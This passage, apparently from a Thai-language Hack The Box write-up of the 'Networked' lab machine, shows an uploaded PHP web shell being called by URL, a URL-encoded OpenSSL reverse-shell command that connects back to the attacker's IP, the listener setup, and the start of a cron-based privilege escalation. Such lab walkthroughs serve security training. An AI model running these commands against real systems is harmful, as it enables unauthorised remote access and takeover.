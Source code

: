 
และเราจะเห็นได้ว่าไฟล์ของเราอยู่ภายใต้ uploads/ ซึ่งทำให้เราสามารถเข้าถึงไฟล์ดังกล่าวได้ 

```
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=id
```

![[Challenge/HTB Challenge/Networked/IMG/008.png]]


```bash

## Kali Open Reverse shell on 443 
sudo openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes;sudo openssl s_server -quiet -key key.pem -cert cert.pem -port 443


## Target using OpenSSL Shell to Kali 
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=mkfifo%20%2Ftmp%2Fs%3B%20%2Fbin%2Fsh%20-i%20%3C%20%2Ftmp%2Fs%202%3E%261%20%7C%20openssl%20s_client%20-quiet%20-connect%2010.10.14.6%3A443%20%3E%20%2Ftmp%2Fs%3B%20rm%20%2Ftmp%2Fs
```


# Priv to guly 

หาเราสำรวจ /home จะเห็น guly ซึ่งมีการ setup crontab ไว้ 

```bash
sh-4.2$ whoami 
whoami 
apache
sh-4.2$ pwd 
pwd 
/home/guly
sh-4.2$ ls -la 
ls -la 
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 May 30 03:47 user.txt
sh-4.2$ 
sh-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
sh-4.2$ cat /home/guly/check_attack.php
```

```php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

```